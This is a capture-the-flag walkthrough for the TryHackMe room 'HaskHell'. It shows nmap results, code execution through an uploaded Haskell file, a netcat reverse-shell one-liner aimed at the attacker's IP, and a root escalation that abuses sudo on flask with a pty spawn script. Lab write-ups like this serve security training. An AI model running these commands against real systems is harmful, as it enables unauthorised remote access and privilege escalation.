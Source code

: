 
# TryHackMe(THM) - HaskHell  - WriteUp

> Austin Lai | August 6th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - HaskHell](https://tryhackme.com/room/haskhell)

Difficulty: **Medium**

You will learn basic knowledge and understanding of Haskell and get to know python - flask.

<!-- /Description -->

<br />

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - HaskHell  - WriteUp](#tryhackmethm---haskhell----writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
        - [User Flag](#user-flag)
        - [Root flag](#root-flag)

<!-- /TOC -->

<br />

## Task 1

### User Flag

For start, let get basic enumeration --- starting nmap and gobuster

Nmap result:

```text
Nmap scan report for 10.10.3.221
Host is up, received timestamp-reply ttl 61 (0.35s latency).
Scanned at 2021-08-06 17:46:07 Malay Peninsula Standard Time for 128s
Not shown: 4998 closed ports
Reason: 4998 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5001/tcp open  http    syn-ack ttl 61 Gunicorn 19.7.1
```

Gobuster result:

![gobuster-result](gobuster-result.png)

Let check out on the site !

Main page:

![main-page](main-page.png)

Homework:

![homework-page](homework-page.png)

Uploads:

![uploads-page](uploads-page.png)

However, if you get gobuster result, you will get the below page:

![gobuster-result-page](gobuster-result-page.png)

Next, let get some basic understand of Haskell !

Specifically, research on how Haskell can invoke shell command.

If you haven't figure out, check out the hint given

<details><summary>Hint 1</summary>

[Haskell System Command](https://hackage.haskell.org/package/process-1.0.1.3/docs/System-Cmd.html)

</details>

<br />

Let's put it in practical ! Create a haskell shell script and submit to the link !

<details><summary>Hint 2</summary>

```haskell
import System.Cmd
 
main = system "ls"
```

</details>

<br />

Yeah, turn out with simple haskell script, we can execute command !

![haskell-script-execute-command](haskell-script-execute-command.png)

Next ! Let get reverse shell, shall we ?

<details><summary>Hint 3</summary>

```haskell
import System.Cmd

main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOU_IP 8888 >/tmp/f"
```

</details>

<br />

And yes ! we get our reverse shell

![flask-reverse-shell](flask-reverse-shell.png)

Next, let's do some basic enum on the machine.

You will notice aside flask, there is another user available.

Check out what you can find.

<details><summary>Hint 4</summary>

```text
Check out the ssh, is there anything you can get?
```

</details>

<br />

Once you get the file, you will be able to login to the system!

Yeah, you get the user flag.

<br />

### Root flag

Let's do enum again.

<details><summary>Hint 1</summary>

```text
Have you check sudo?
```

<details><summary>Hint 2</summary>

![prof-sudo-l](prof-sudo-l.png)

</details>

</details>

Once you get the possible PrivEsc exploit ...

Let's check out how you can use flask to get PrivEsc ! Google and research !!!

<details><summary>Hint 3</summary>

```text
That's right !

You can create a python shell script as flask using python.

Set the FLASK_APP to the shell you created
```

<details><summary>Hint 4</summary>

shell.py

```python
import pty
pty.spawn('/bin/bash')
```

</details>

<details><summary>Hint 5</summary>

![flask-privesc](flask-privesc.png)

</details>

</details>

And yes, you get the root flag !

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB




